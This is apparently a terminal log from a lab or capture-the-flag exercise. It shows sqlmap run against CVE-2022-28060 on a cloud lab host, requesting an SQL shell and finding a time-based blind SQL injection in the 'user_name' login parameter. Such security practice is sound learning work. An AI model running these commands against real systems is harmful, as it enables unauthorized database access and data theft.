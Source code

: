 ```




n
^Z
zsh: suspended  sqlmap -r cve-2022-28060.txt --sql-shell -v
                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/chunqiuyunjing]
└─$ sqlmap -r cve-2022-28060.txt --sql-shell -v
        ___
       __H__                                                                                                                                                                                                                               
 ___ ___[']_____ ___ ___  {1.7.2#stable}                                                                                                                                                                                                   
|_ -| . ["]     | .'| . |                                                                                                                                                                                                                  
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                                                                  
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                               

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 05:10:10 /2023-06-24/

[05:10:10] [INFO] parsing HTTP request from 'cve-2022-28060.txt'
[05:10:10] [WARNING] provided value for parameter 'login' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[05:10:10] [INFO] testing connection to the target URL
got a 302 redirect to 'http://eci-2ze9yuyw8sqsqqb6tip2.cloudeci1.ichunqiu.com:80/index.php'. Do you want to follow? [Y/n] n
[05:10:17] [INFO] testing if the target URL content is stable
[05:10:17] [WARNING] POST parameter 'user_name' does not appear to be dynamic
[05:10:17] [WARNING] heuristic (basic) test shows that POST parameter 'user_name' might not be injectable
[05:10:17] [INFO] testing for SQL injection on POST parameter 'user_name'
[05:10:17] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[05:10:18] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[05:10:18] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[05:10:18] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[05:10:18] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[05:10:19] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[05:10:19] [INFO] testing 'Generic inline queries'
[05:10:19] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[05:10:19] [WARNING] time-based comparison requires larger statistical model, please wait. (done)                                                                                                                                         
[05:10:19] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[05:10:20] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[05:10:20] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[05:10:41] [INFO] POST parameter 'user_name' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
```